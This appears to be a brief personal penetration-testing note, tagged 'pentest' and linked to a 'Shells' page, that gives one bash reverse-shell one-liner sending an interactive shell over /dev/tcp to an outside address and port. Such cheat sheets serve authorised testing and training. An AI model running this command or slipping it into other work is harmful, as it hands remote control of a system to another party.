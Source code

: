 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell with bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[[´Shells]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
